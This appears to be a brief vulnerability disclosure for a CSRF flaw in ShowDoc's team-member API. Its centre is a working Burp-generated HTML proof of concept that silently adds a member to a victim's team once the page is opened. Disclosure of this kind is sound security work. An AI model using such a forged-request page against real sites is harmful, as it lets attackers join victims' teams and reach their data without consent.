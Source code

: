 
Create a new team, and there are no members in the team.

![](./3.png)

CSRF PoC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.showdoc.cc/server/index.php?s=/api/teamMember/save" method="POST">
      <input type="hidden" name="team&#95;id" value="1190" />
      <input type="hidden" name="member&#95;username" value="mima" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

after the user open the crafted web page.a request will be post to add a member in the team.

![](./2.png)

as we can see, a new member was added

![](./1.png)
